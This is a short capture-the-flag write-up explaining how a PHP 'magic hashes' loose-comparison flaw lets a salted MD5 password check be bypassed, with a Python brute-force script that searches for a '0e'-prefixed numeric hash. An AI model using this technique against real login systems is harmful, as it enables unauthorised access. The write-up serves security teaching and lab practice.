

# Web - wx01
## Description
```
Visit the site at https://3-wx02.bootupctf.net and find a way to bypass the password check. You can download the source code from the web page.
```

Reaching the web page shows:


This is an example of magic hashes vulnerability. In PHP, “==” returns true if $a equals $b AFTER transtyping. 
That means that 2 strings beginning by “0e” and filled with numbers will always be equal. So the only thing needed is to find a password that would return a hash starting with "0e" followed by only numbers. This can be brute forced with:

```
import hashlib

salt = "c789abc318a2d1ac"

for i in range(100000000):
    password = salt + str(i)
    password = password.encode('utf8')

    nhash = hashlib.md5(password).hexdigest()
    if nhash[0:2] == "0e" and nhash[2:32].isdigit():
        print(str(i), nhash)
        exit(0)
```

After a few minutes we get a password that when inputed returns the flag.